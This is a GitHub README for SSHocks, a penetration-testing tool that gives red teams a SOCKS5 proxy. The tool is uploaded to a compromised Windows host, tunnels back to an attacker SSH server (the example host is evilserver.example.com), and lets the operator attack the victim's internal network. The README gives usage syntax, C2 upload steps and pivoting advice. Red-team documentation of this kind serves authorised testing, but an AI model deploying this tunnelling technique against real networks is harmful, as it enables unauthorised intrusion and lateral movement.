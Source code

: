 <h1>SSHocks v. 1.0</h1>
                                       
SSHocks was born out of a penetration testing need. On a Red Team engagement, we need to get a Socks5 proxy up and fast. We originally had one working through an SSH tunnel using OpenSSH installed on a Windows 10 target. However, partway through our engagement, the client placed protections that stopped ssh.exe from functioning. I got to work and cobbled together this simple SSH client with full Socks5 support. I wanted it to be a single executable file so it was easy to upload. This project can be published via *dotnet* as a single file.

Example: *dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true*

The latest release is confirmed to work on Windows 10 hosts. It has not yet been tested on other versions of Windows. (I just built it! Give me time man!) If you've tried it on something other than Windows 10, please let me know!

**USAGE:** SSHocks.exe [SSH server] [SSH Port] [username] [path to private key] [remote socks port]

(Ex. SSHocks.exe evilserver.example.com 2222 victimUser C:\Path\to\keyfile\id_ed25519 1080)

**NOTES:**

1. You will need to create the user account on your SSH server. Then, generate an ed25519 keypair on your SSH server for your victim's user account. **DO NOT SET A PASSWORD ON THE KEY.** SSHocks DOES NOT support RSA keys, only ed25519.

2. Upload the key and SSHocks.exe to the victim host using your C2 agent or whatever other means you might have for uploading sketchy stuff. **(At this time, SSHocks cannot be assembly loaded. I'm working on fixing that. Any assistance is appreciated!)**

3. Execute using your prefered binary execution method.

4. By default, the program will open port 1080 on the victim host as the receiving port for all Socks5 traffic. This can be changed in source as needed.
   
5. Once the client is connected to your attack SSH server and you've verified the proxy port is listening, you can use any proxy aware program or tool to attack the victim's network. Use Proxychains with non-proxy aware tools. Just make sure your proxychains.conf file is properly configured for the correct port and is using socks5.

6. **SHUT DOWN** Since the point was to use this via a C2 impant which is likely to not provide an interactive shell, I baked in a way to gracefully shut the proxy and tunnel down using a remote proxy command. Simply use proxychains or some other means to send:
  
   *curl xxx.xxx*
   
The proxy will receive the connection request and interpret it as a command to shutdown, and will disconnect gracefully.

<h2>To Do:</h2>
- Modify source to be able to be loaded using Assembly Reflection
